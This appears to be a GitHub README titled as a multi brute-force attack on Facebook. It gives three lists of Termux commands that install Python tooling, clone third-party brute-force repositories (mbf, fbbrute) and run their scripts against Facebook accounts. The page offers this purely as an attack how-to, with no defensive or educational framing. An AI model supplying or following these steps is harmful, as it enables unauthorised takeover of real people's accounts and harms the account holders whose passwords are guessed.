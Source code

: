 # MULTI-BRUTE-FORCE-ATTACK-ON-FACEBOOK  

So Let's Start....  
Step By Step  
First of All Download Termux from Google Play and Install it  After installing just give these commands to Termux  
And Run one by one  

![PicsArt_10-25-08 29 55](https://user-images.githubusercontent.com/75029023/111865355-9061ca80-89a1-11eb-91b9-6c5f35e01cfe.png)

# COMMAND LIST 1 
* $ apt update && apt upgrade  
* $ pkg install python2 
* $ pkg install git  
* $ pip2 install mechanize  
* $ git clone https://github.com/pirmansx/mbf  
* $ cd mbf 
* $ python2 MBF.py  

# COMMAND LIST 2  
* $ pkg update 
* $ pkg upgrade 
* $ pkg install python2  
* $ pkg install perl 
* $ pkg install curl 
* $ pkg install mechanize 
* $ pip2 install requsets 
* $ git clone https://github.com/Senitopeng/fbbrute 
* $ cd fbbrute 
* $ python2 fbbrute.py  

# COMMAND LIST 3 
* $ apt update && apt upgrade  
* $ pkg install pip 
* $ pkg install python 
* $ pkg install python2  
* $ pip2 install mechanize 
* $ pkg install git 
* $ git clone https://github.com/hnov7/mbf 
* $ cd mbf 
* $ ls 
* $ python2 mbf.py 
* $ 1 
* $ y

![44804662_315681345917191_1671247044175462400_o](https://user-images.githubusercontent.com/75029023/111865398-b4251080-89a1-11eb-802a-d00f8e6ed33c.jpg)

